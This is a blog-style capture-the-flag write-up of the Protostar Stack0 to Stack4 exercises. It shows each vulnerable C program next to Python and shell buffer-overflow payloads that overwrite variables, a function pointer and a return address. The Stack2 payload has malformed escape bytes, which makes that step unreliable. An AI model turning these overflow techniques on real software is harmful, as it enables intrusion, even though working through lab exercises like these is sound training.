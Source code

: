 ```yaml
---
layout: blog
title: "CTF Writeup: Exploit Exercise - Protostar"
date: 2020-05-27T18:09:48.220Z
tags:
  - ctf_writeup
---
```


Protostar Challange of https://exploit-exercises.lains.space/

<!--more-->

# Stack

## Stack0

### source:

```c
// stack0.c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

### how to solve:

payload:

```python
python -c "print 'A'*65"  | ./stack0
```

## Stack1

### source:

```c
// stack1.c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

### how to solve

because the hint tells that _protostar_ is little endian, so we have to match the payload:

```bash
./stack1 $(python -c "import struct; print('A'*64 + '\x64\x63\x62\x61' )")
```

## Stack2

### source:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

### how to solve:

```shell
# set variable
GREENIE=`python -c "import struct; print('A'*68 + '\x0a\x0d\x0a\0d\0a')"`

# export it to the os env
export GREENIE

# check if it's already loaded
echo $GREENIE

# run the program
./stack2
```

one-liner solution:

```shell
GREENIE=`python -c "import struct; print('A'*64 + '\x0a\x0d\x0a\x0d')"` && export GREENIE && ./stack2
```

## Stack3

### source:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

### how to solve:

```shell
# get win function address

(gdb) info addr win
Symbol "win" is a function at address 0x8048424.

# use win() address on the payload
python -c "print 'A' * 64 + '\x24\x84\x04\x08'" | ./stack3

# output:
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

## Stack4

### source:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

### how to solve

- override main() return method address
- see win() method by using command `objdump -t /opt/protostar/bin/stack4 | grep win`
- craft payload and try to override return value

payload:

```python
#hitstack4.py
import struct

payload = ""

for s in ['A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'j', 'k', 'l', 'm', 'n']:
        payload += s.lower()*4

for s in ['A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'j', 'k', 'l', 'm', 'n']:
        payload += s.lower()*4

ebp = 'EEEE'

eip = struct.pack("I", 0x080483f4)

print payload+ebp+eip
```

```bash
# run the payload
python hitstack4.py | /opt/protostar/bin/stack4
```
